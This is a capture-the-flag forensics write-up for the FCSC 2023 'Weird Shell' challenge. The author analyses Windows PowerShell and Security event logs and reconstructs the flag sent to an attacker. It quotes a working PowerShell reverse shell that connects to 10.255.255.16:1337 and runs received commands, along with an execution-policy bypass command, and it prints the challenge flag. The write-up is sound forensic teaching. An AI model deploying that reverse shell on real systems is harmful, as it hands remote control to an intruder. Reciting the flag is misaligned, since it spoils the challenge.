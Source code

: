 # Weird Shell

# Original challenge 🇫🇷
Un autre utilisateur a un comportement similaire à La gazette de Windows (catégorie intro). Mais cette fois, pour retrouver ce qui a été envoyé à l'attaquant il faudra peut-être plus de logs.

# Translated challenge 🇺🇸
Another user has similar behavior to Windows Gazette (intro category). But this time, to find what was sent to the attacker, you may need more logs.

# Solution
Once again, we are dealing with an .evtx file, we can use the Windows Event Viewer to explore it.

Search for Windows Event Viewer and open it.

Open the Microsoft-Windows-PowerShell4Operational.evtx  and Security.evtx files.

On the Microsoft Windows PowerShell4Operational file, we can notice that there are two warning events with the following Script Block :

```
Création du texte Scriptblock (1 sur 1) : 
if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'C:\Users\jmichel\Downloads\payload.ps1'

ID Scriptblock : dcb325dd-1c30-46bd-8363-81083ac85323
Chemin d'accès : 
```

and 

```
Création du texte Scriptblock (1 sur 1) : 
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}`n"
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()


ID Scriptblock : 2354b750-2422-42a3-b8c2-4fd7fd36dfe7
Chemin d'accès : D:\PAYLOAD.PS1
```
![Capture d'écran 2023-05-12 181933](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/assets/26192792/4009703d-4d81-44a7-a381-fbb8b2b7d7cf)

![Capture d'écran 2023-05-12 180745](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/assets/26192792/0ea758c0-f8e1-4f0f-8899-8a9f6eaeadac)

The payload file has been given the authorization to be executed

The payload is writing an encrypted stream

To reconstruct what was sent, we need the $PID and the System.Security.Principal.WindowsIdentity

These information are available on the security logs : 

We can read it from the event at : 16:26:50 : 
```
SubjectUserName : cmaltese 
SubjectDomainName : FCSC 
ProcessId : 0xecc 
```
![Identity](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/assets/26192792/4472dede-d187-453e-893e-c20405e7ec8b)

![processId](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/assets/26192792/4c501ae2-34d8-40af-bcbe-8aeed5228acb)


We don't need to have the server at the IP address available to reconstruct what was really sent.

We can skip the connexion part and create on powershell a script block with only the interesting part of the code as the following :


```
$ScriptBlock = {


$StreamWriter = New-Object IO.StreamWriter([System.Console]::OpenStandardOutput())
function WriteToStream ($String) {
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$processID = "3788"  # Replace with the desired process ID, 3788 is 0xecc in hex
$WindowsIdentity = "FCSC\cmaltese"
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(($processID + $WindowsIdentity).ToString()))))).Replace('-', '').ToLower())}`n"


while($true) {
    $Command = Read-Host "PS > "
    if($Command -eq "exit") { break }

    $Output = try {
        Invoke-Expression $Command 2>&1 | Out-String
    } catch {
        $_ | Out-String
    }

    WriteToStream ($Output)
}

$StreamWriter.Close()

}
```

# Result
By running the edited Block Script we have the correct flag :

FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}

